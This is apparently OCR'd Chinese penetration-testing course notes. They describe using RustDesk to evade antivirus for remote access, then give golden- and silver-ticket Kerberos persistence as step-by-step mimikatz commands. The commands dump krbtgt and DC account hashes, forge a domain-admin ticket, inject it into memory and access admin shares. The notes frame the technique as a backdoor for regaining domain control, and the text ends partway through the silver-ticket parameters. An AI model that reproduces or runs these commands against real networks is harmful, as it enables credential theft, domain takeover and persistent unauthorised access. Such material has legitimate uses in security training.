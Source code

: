 ~~~
https://github.com/rustdesk/rustdesk
利用场景：无需网络，需要绕过杀毒等网络防护
1、有网连接：
C:\Users\用户名\AppData\Roaming\RustDesk\config
其中ID和密码在RustDesk.toml文件里。
2、无网内网连接：IP直连
RustDesk2.toml
direct-server = 'Y'
direct-access-port = '8443'


3.权限维持-基于服务TGT-黄金白银票据
⻩⾦票据⽣成攻击，是⽣成有效的TGT Kerberos票据，并且不受TGT⽣命周期的影响（TGT默认10⼩时，最多续订7天），这⾥可以为任意⽤户⽣成⻩⾦票据，然后为域管理员⽣成TGT，这样普通⽤户就可以变成域管理员。
白银票据（SILVER TICKET）是利用域的服务账户进行伪造的ST，在Kerberos认证的第三步，Client带着ST和Authenticator3向Server上的某个服务进行请求，Server接收到Client的请求之后，通过自己的Master Key 解密ST，从而获得 Session Key。所以只需要知道Server用户的Hash就可以伪造出一个ST，且不会经过KDC，但是伪造的门票只对部分服务起作用（不需要交互KDC，需要知道Server的NTLM Hash）。

黄金方法：
1、已经拿下域管理员，获取到krbtgt hash；
2、利用krbtgt的hash制作黄金票据工具，进行攻击。
流程：
1、域名：god.org
2、域的SID值：S-1-5-21-1218902331-2157346161-1782232778
>whoami /user
>whoami /all
>wmic useraccount get name,sid
3、域的KRBTGT账户NTLM-HASH：b097d7ed97495408e1537f706c357fc5
>mimikatz privilege::debug
>mimikatz lsadump::lsa /patch
4、伪造用户名：webadmin（任意用户名）
生成票据：
mimikatz kerberos::golden /user:webadmin /domain:god.org /sid:S-1-5-21-1218902331-2157346161-1782232778 /krbtgt:b097d7ed97495408e1537f706c357fc5 /ticket:g
导入内存：
mimikatz kerberos::ptt g
访问测试：
dir \\owa2010cn-god\c$
后期渗透：结合前面的课程
net use \\owa2010cn-god
黄金票据总结：
该攻击⽅式其实是⼀种后⻔的形式，属于第⼆次进⾏攻击的⽅法。
第⼀次拿到域管权限之后，需要将krbtgt NTLM hash进⾏保存，当第⼆次再来进⾏域渗透攻击时，我们就可使⽤krbtgt的NTLM hash制作⻩⾦票据，从⽽再次获得域管权限。

白银方法：
1、已经拿下域管理员，获取到DC hash；
2、利用DC的hash制作白银票据工具，进行攻击。
流程：
1、域名：god.org
2、域的SID值：S-1-5-21-1218902331-2157346161-1782232778
>whoami /user
>whoami /all
>wmic useraccount get name,sid
3、域DC账户NTLM-HASH：82779569ef27d72b88b6c93dd8b37299
>mimikatz privilege::debug
>mimikatz sekurlsa::logonpasswords
4、伪造用户名：webadmin（任意用户名）
导入票据：（CIFS文件共享服务）
domain：域名
sid：域环境下的SID，除去最后-的部分剩下的内容
target：要访问的服务器，写FQDN
rc4：写的是目标主机的NTLM（主机名$对应NTLM）
service：要访问的资源类型
~~~